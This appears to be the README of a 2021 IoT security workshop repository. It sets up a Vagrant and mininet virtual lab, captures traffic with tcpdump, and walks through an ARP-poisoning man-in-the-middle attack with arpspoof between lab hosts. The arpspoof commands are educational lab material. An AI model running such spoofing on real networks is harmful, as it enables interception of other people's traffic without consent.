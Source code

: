 # Workshop

This workshop is a crash course on creating and analyzing an Internet of Things (IoT) network. The presenters will demonstrate how to set up an IoT lab that mimics a modern home network, how to capture traffic between devices, and how to analyze and visualize this data. They also will discuss basic packet altering methods and how to expand this setup to test different cybersecurity scenarios (ex. Man in the Middle Attack). Participants will learn skills that can apply to their career and home network (all skill levels welcome). To start, the presenters will demonstrate how to set up a hardware lab of devices (ex. Raspberry Pi) in common home network configurations. They will focus on setting up IoT devices of different capability levels that allow for transmitting, receiving and capturing data. They will analyze the data pulled from this setup to later determine network behavior and security risks. Next, they will instruct attendees on how to login to devices in the IoT lab as well as how to start capturing network traffic. Participants will learn and use common packet capturing and network analysis tools (ex. nmap). To mimic common malicious cybersecurity scenarios, the presenters will demonstrate how to delete or alter packets traveling between devices. Finally, this presentation will use Python to complete basic analysis and visualization of captured network traffic. Attendees will learn about different exploratory data pre-processing techniques, calculate statistics on the network, and use common visualization libraries to gain visual insight on the network’s behavior.

## Necessary Tools

To run the virtual part of this workshop, you will need to download the following dependencies:

* https://www.vagrantup.com/downloads
* https://www.virtualbox.org/wiki/Downloads

## Clone the GitHub Repo

```console
git clone https://github.com/stresearch/wicys-2021-iot.git
```

## Vagrant Setup (Testing in virtual network)

Vagrant is a tool for building and managing virtual machine environments. We're using it on this project to have a common dev environment for everyone in the workshop, regardless of whether they have a MacOS / Windows / Linux host machine. Vagrant can be used with different hypervisors, but for this workshop we'll be using VirtualBox. To create and configure the virtual machine, run the following commands:

```console
cd wicys-2021-iot/
vagrant plugin install vagrant-vbguest
vagrant up
```

## Create the Virtual Test Network

Now that our dev environment has been created, we will need to create the virtual test network within the environment. We will be using a utility called `mininet`.

* http://mininet.org

First, ssh into the dev environment:

```console
vagrant ssh
```

Now let's start up the virtual network:

```console
sudo mn --topo single,5 --nat
```

Once you run this, you'll be in the mininet CLI (command-line interface).

## Start the MITM attack

We were able to see the traffic from `tcpdump` because we executed the command from the "router" within our virtual test network. With the mitm attack, we will want to be able to see traffic from a host within the network that is not the router.

For this example, we will execute the mitm attack from `h1`, and target `h2`. In our dev environment, we can execute shell commands in `h1` using the following command:

```console
h1 BASH_COMMAND_HERE
```

First, we'll need to generate traffic from h2:

```console
h2 watch -n 5 curl www.icanhazip.com >/dev/null 2>&1 &
```

First, we'll try to sniff `h2` traffic from `h1`. To do this, we'll use `tcpdump`.

* https://linux.die.net/man/8/tcpdump

```console
h1 tcpdump -i h1-eth0 src host 10.0.0.2
```

After waiting a few seconds, it looks like we don't see any traffic...

So let's use arp poisoning! For that, we'll be using arpspoof:

* https://linux.die.net/man/8/arpspoof


```console
h1 arpspoof -i h1-eth0 -t 10.0.0.2 -r 10.0.0.6 
```

We can see the mac addresses that it is spoofing, let's run it in the background and silience the output so that stdout isn't distracting us:

```console
h1 arpspoof -i h1-eth0 -t 10.0.0.2 -r 10.0.0.6 >/dev/null 2>&1 &
```

Now that we are spoofing the arp packets, let's try to sniff the traffic from h2:

```console
h1 tcpdump -i h1-eth0 src host 10.0.0.2 and not arp
```

Now we see traffic! :)

## Analysis

Now to do analysis, we're going to get jupyter notebook running.
```console
cd wicys-2021-iot/analysis/
jupyter-notebook --ip=0.0.0.0
```

Copy the last URL and type it into your browser, and you'll be able to access the notebooks. Open `wicys-iot-workshop-analysis.ipynb`
